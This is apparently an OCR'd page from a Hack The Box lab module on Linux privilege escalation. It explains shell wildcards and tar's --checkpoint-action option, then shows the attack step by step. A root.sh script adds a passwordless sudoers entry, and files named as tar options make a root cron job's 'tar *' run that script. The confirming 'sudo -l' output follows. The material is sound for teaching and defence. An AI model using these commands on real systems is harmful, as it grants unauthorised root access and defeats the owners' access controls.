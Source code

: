 # Wildcard Abuse

Character	Significance
*	An asterisk that can match any number of characters in a file name.
?	Matches a single character.
[ ]	Brackets enclose characters and can match any single one at the defined position.
~	A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.
-	A hyphen within brackets will denote a range of characters.


An example of how wildcards can be abused for privilege escalation is the tar command, a common program for creating/extracting archives. If we look at the man page for the tar command, we see the following:

  Wildcard Abuse
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
The --checkpoint-action option permits an EXEC action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options. Let's see this in practice.

Consider the following cron job, which is set up to back up the /home/htb-student directory's contents and create a compressed archive within /home/htb-student. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

  Wildcard Abuse
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

  Wildcard Abuse
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
We can check and see that the necessary files were created.

  Wildcard Abuse
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.

  Wildcard Abuse
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL